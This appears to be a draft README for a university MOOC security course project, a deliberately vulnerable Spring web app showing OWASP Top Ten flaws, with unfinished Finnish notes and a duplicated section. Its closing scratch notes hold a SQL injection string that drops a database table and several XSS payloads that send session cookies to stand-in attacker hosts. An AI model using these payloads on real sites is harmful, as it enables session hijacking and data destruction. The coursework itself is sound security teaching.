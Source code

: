 # Cyber Security Base 2019 -project

This app is a project created for MOOC course Cyber Security Base 2019-2020.

## Project description
In the first course project, your task is to create a web application that has at least five different flaws from the OWASP top ten list (https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf).


## Project essay

LINK: https://github.com/nurvel/spring-owasp-vulnerable-app


### FLAW 1: A6:2017-Security Misconfiguration
#### OWASP description of the security flaw:
Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure
default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured
HTTP headers, and verbose error messages containing sensitive information. Not only must all
operating systems, frameworks, libraries, and applications be securely configured, but they must
be patched and upgraded in a timely fashion.

#### How the security flaw behaves in the app
H2 data base URL not secured and using default password

#### How to fix the security flaw in the app
Change default password to H2



##FLAW 1: A6:2017-Security Misconfiguration
#OWASP description of the security flaw:
Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure
default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured
HTTP headers, and verbose error messages containing sensitive information. Not only must all
operating systems, frameworks, libraries, and applications be securely configured, but they must
be patched and upgraded in a timely fashion.

#How the security flaw behaves in the app
H2 data base URL not secured and using default password

#How to fix the security flaw in the app
Change default password to H2

##FLAW 2: A7:2017-Cross-Site Scripting (XSS)
#OWASP description of the security flaw:
XSS flaws occur whenever an application includes untrusted data in a new web page without
proper validation or escaping, or updates an existing web page with user-supplied data using a
browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the
victim’s browser which can hijack user sessions, deface web sites, or redirect the user to
malicious sites.
#How the security flaw behaves in the app
IDEA: thymeleaf salli XSS inserttaus HOX: mikä hyöty.. Ihan vaan kiusanteko tms?

#How to fix the security flaw in the app


##FLAW 3: A3:2017-Sensitive Data Exposure
#OWASP description of the security flaw:
Many web applications and APIs do not properly protect sensitive data, such as financial,
healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit
card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra
protection, such as encryption at rest or in transit, and requires special precautions when
exchanged with the browser.

#How the security flaw behaves in the app
idea: näkee tietoja URL arvailulla jota ei pitäisi? --> kaikki en oppilaiden tiedot
#How to fix the security flaw in the app
autorisointi urliin /

##FLAW 4: A10:2017-Insufficient Logging & Monitoring
#OWASP description of the security flaw:
Insufficient logging and monitoring, coupled with missing or ineffective integration with incident
response, allows attackers to further attack systems, maintain persistence, pivot to more systems,
and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over
200 days, typically detected by external parties rather than internal processes or monitoring.
#How the security flaw behaves in the app
#How to fix the security flaw in the app

##FLAW 5: A9:2017-Using Components with Known Vulnerabilities
#OWASP description of the security flaw:
Components, such as libraries, frameworks, and other software modules, run with the same
privileges as the application. If a vulnerable component is exploited, such an attack can facilitate
serious data loss or server takeover. Applications and APIs using components with known
vulnerabilities may undermine application defenses and enable various attacks and impacts.
#How the security flaw behaves in the app
harjoituksesta joku missä oli tää?

#How to fix the security flaw in the app



-- SQL injection =>  Hello insert
=> drop table?

INSERT INTO signup (address, name) VALUES ('testijuttu', 'moikka')

INSERT INTO signup (address, name) VALUES ('testijuttu', '
Bye bye courses!') ; DROP TABLE course; --
')

style=\"display: none;\"

<script>document.write("<img src=\"http://www.haxor.com/cookiesteal/" + document.cookie +"\" style=\"display: none;\" />")  </script>

# ALLA OLEVA TOIMII
<script>document.write("<img src=\"http://www.haxor.com/cookisteal/" + document.cookie +"\"/>")  </script>

<script>fetch("http://www.haxor.com/cookisteal/" + document.cookie) </script>
document.cookie="JSESSIONID=12EE43AF515F83867B20D94907108063"
<img src='https://yourserver.evil.com/collect.gif?cookie=' + document.cookie/>
